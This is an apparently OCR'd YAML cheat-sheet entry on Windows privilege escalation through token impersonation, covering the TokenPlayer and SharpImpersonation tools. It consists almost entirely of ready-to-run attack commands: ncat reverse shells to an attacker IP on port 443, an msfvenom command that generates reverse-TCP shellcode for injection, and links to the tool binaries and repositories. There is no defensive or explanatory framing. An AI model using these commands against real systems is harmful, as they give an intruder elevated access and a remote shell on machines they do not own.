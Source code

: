 ```yaml
---
functions:
  privilege-escalation:
    - description: TokenPlayer - Impersonate another user and spawn processes with those user tokens
      code: |
        # reverse shell
        ./TokenPlayer-v0.8.exe --pid 2156 --exec --prog C:\\Windows\\System32\\cmd.exe --args "/c C:\Windows\temp\ncat.exe 192.168.119.135 443 -e cmd.exe"

    - description: SharpImpersonation - Impersonate another user and spawn processes with those user tokens
      code: |
        msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.127 LPORT=443 -f base64
        SharpImpersonation.exe user:<user> shellcode:<base64shellcode>

        SharpImpersonation.exe user:<user> binary:<binary-Path>
        SharpImpersonation.exe user:xor\david binary:"ncat.exe 192.168.119.127 443 -e cmd.exe"

resources : |
  https://github.com/unkn0wnsyst3m/scripts/blob/master/TokenPlayerx64.exe
  https://github.com/unkn0wnsyst3m/scripts/blob/master/TokenPlayerx86.exe
  https://github.com/S1ckB0y1337/TokenPlayer
  https://www.ired.team/offensive-security/privilege-escalation/t1134-access-token-manipulation
  https://github.com/S3cur3Th1sSh1t/SharpImpersonation
---
```


